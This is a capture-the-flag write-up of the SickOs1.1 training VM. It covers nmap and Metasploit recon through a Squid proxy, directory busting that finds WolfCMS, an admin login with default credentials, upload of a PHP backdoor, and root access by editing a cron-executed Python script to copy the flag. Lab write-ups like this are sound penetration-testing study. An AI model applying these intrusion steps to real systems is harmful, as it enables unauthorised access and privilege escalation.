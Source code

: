 # SickOs1.1 Writeup

## Recon

``` bash
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
```
Seems port 3128 has a squid proxy open. This might allow for proxy pivoting to scan the internal network

```
msfconsole
use auxiliary/scanner/http/squid_pivot_scanning
set RHOSTS <IP>
set RPORT 3128
set RANGE <IP>
run
```

this does an internal port scan and returns

```
[+] [IP] IP is alive but 21 is CLOSED
[+] [IP] IP:80 seems OPEN
[+] [IP] IP is alive but 139 is CLOSED
[+] [IP] IP is alive but 445 is CLOSED
[+] [IP] IP is alive but 1433 is CLOSED
[+] [IP] IP is alive but 1521 is CLOSED
[+] [IP] IP is alive but 1723 is CLOSED
[+] [IP] IP is alive but 3389 is CLOSED
[+] [IP] IP is alive but 8080 is CLOSED
[+] [IP] IP is alive but 9100 is CLOSED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This shows that the proxy is able to connect to the internal 80 port. 
Let's see what is hosted there by setting our proxy to the virtual machine

![](OSCPblehh.png)

It seems like there is something here. The next step is to do some directory busting

``` bash
dirb <ip> 
```

this returns:

```
---- Scanning URL: http://<IP>/ ----
+ http://<IP>/cgi-bin/ (CODE:403|SIZE:290)                                     
+ http://<IP>/connect (CODE:200|SIZE:109)                                      
+ http://<IP>/index (CODE:200|SIZE:21)                                         
+ http://<IP>/index.php (CODE:200|SIZE:21)                                     
+ http://<IP>/robots (CODE:200|SIZE:45)                                        
+ http://<IP>/robots.txt (CODE:200|SIZE:45)                                    
+ http://<IP>/server-status (CODE:403|SIZE:295) 
```

Let's look in robots.txt to see if there are any directories we've missed

```
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

seems like there is a /wolfcms we haven't found. it looks like this

![](OSCPwolfcms.png)

## Exploit

Looks like a content management system. The admin login page for wolfcms is located at
http://<IP>/wolfcms/?/admin/login

by trying some simple admin login credentials like "admin admin" we can login to the admin account.

by going to the article list we can see an article that contains php code. This probably means that the php code get's executed and might allow us to create a shell. By uploading a php file (which we can do as admin) we can upload a php backdoor to the /public folder.

now that we have our shell we can do some recon on the machine.

```
whoami
www-data
```

If we check /etc/cron.d/automate we can see that it contains

```
* * * * * root /usr/bin/python /var/www/connect.py
```

## Privilege Escalation

This means it executes a file as root in /var/www. since we are www-data we are able to write in that directory. This means we can edit the connect.py file to execute any piece of code we want.
This way we can read the flag by writing the python code

```
f = open("/root/a0216ea4d51874464078c618298b1367.txt")
f2 = open("/var/www/flag.txt", 'w')
f2.write(f.read())
```

After a little wait it creates a flag.txt file that we can read with the contents:

```
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```